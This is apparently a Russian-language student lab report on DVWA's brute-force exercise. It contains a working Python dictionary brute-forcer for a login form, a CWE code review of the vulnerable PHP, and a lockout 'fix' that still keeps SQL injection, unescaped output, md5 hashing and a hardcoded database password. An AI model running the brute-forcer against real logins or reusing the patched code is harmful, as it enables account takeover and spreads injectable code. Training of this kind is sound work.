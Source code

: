 # Практическая работа №3
<h3> Задание №1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)</h3>

<p>Выполнено на языке программирования Python с использованием библиотеки requests. В качестве источника паролей был выбран готовый словарь с наиболее часто встречающимися паролями(common-passwords.txt). Разработанный алгоритм читает все пароли из файла и каждый из них поочередно подставляет в тело HTTP GET запроса. При успешном входе пользователь видит надпись "Welcome to the password protected area". Она и является определяющим фактором для разработанного решения</p>

    passwords = []

    with open("common-passwords.txt", "r", encoding='utf-8') as file:
        for password in file.readlines():
            if '\n' in password:
                passwords.append(password[:-1])
                continue

            passwords.append(password)
        
    cookies = {'PHPSESSID':'dha64hulcvldr08koooh0a8iqt', 'security': 'low'}

    for password in passwords:
        response = requests.get(url=f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={password}&Login=Login#', cookies=cookies)
        if 'Welcome to the password protected area' in response.text:
            print(f'Password: {password}')
            break

<h3>Задание №2. Проанализировать код и сделать кодревью, указав слабые места. 
Слабость уязвимого кода необходимо указать с использованием метрики 
CWE (база данных cwe.mitre.org)</h3>

    <?php
        if( isset( $_GET[ 'Login' ] ) ) {
        // Get username
        $user = $_GET[ 'username' ];
        // Get password
        $pass = $_GET[ 'password' ];
        $pass = md5( $pass );
        // Check the database
        $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . 
            ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = 
            mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
        if( $result && mysqli_num_rows( $result ) == 1 ) {
                // Get users details
                $row    = mysqli_fetch_assoc( $result );
                $avatar = $row["avatar"];
                // Login successful
                $html .= "<p>Welcome to the password protected area {$user}</p>";
                $html .= "<img src=\"{$avatar}\" />";
        }
        else {
                // Login failed
                $html .= "<pre><br />Username and/or password incorrect.</pre>";
        }
        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }?>

<ol>
    <li>CWE-89. Возможно использование SQL инъекции при определении запроса $query. Как вариант решения проблемы - использование параметризированных запросов</li>
    <li>CWE-79. Не защищенный вывод. В выражениях вида $html .= "какой-то текст и разметка..." возникает уязвимость к XSS атакам - злоумыщленник может внедрить свой JavaScript код</li>
    <li>CWE-522. Пароли хранятся в недостаточно надежном виде - используется md5.</li>
    <li>CWE-20. Отсутствие валидации ввода. Необходимо обрабатывать введенные данные перед их использованием</li>
    <li>CWE-307. Отсутствие защиты от неудачных попыток входа. Предоставляет возможность, например, перебора паролей</li>
	<li>CWE-759. Хранение паролей без соли.  Лучше для каждого пользователя определять уникальное значение(соль), добавлять его к паролю и хэшировать. Таким образом, даже для пользователей с одинаковыми паролями хэши будут разными</li>
	<li>CWE-807. Использование ненадежных входных данных при принятии решения о безопасности</li>

</ol>

<h3>Задание №3. Разработать свою систему авторизации на любом языке, 
исключающий взможность подбора паролей разработнным 
переборщиком паролей в задании 1. Возможно исправление авторизации 
из dvwa.local. Требование - Система авторизации должна использовать запросы GET с 
параметрами, аналогичными из задания bruteforce dvwa
</h3>
<p>Для решения данной задачи в базе данных создана таблица "visits", содержащая в себе количество попыток входа для конкретного IP адреса, исходя из соображений, что после трех неуспешных попыток входа IP адрес не имеет доступ к ресурсу. При успешном же входе количество попыток обнуляется(если оно не привысило 3шт.), в противном же случае увеличивается</p>
<p>Для начала создадим соответствующую таблицу</p>

<pre>CREATE TABLE visits(
    id INT AUTO_INCREMENT,
    ip VARCHAR(16),
    count INT,
    PRIMARY KEY(id)
)
</pre>
<p>Теперь реализуем блокировку</p>
<p>
	
	if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];

	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );

	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	
	$ip = $_SERVER["REMOTE_ADDR"];
	
	$visits_q = "SELECT count FROM visits WHERE ip = '$ip';";
	$connection = new mysqli("localhost", "dvwa", "p@ssw0rd", "dvwa");
	
	$visits_count = 0;

	if($qres = $connection->query($visits_q)){
		$rows_count = $qres->num_rows;
		if ($rows_count == 0) {
			$insert_q = "INSERT INTO visits(ip, count) VALUES('$ip', 1);";
			$connection->query($insert_q);
			$visits_count = 1;
		}
		else {
			foreach($qres as $row){
				$visits_count = $row["count"];
				break;
			}
		}
	}

	if ($visits_count > 3) {
		$html .= "<p>Too many requests!</p>";
		//die();
	}
	else{
		if( $result && mysqli_num_rows( $result ) == 1 ) {
			// Get users details
			$row    = mysqli_fetch_assoc( $result );
			$avatar = $row["avatar"];
	
			// Login successful
			$html .= "<p>Welcome to the password protected area {$user}</p>";
			$html .= "<img src=\"{$avatar}\" />";
			$visits_count = 0;
		}
		else {
			//Login failed
			$html .= "<pre><br />Username and/or password incorrect.</pre>";
			$visits_count = $visits_count + 1;
		}
	
		
		$update_q = "UPDATE visits SET count = $visits_count WHERE ip = '$ip'";
		$connection->query($update_q);
	
		((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
	
	}

	}

</p>
![Alt text](.analyze-result.png)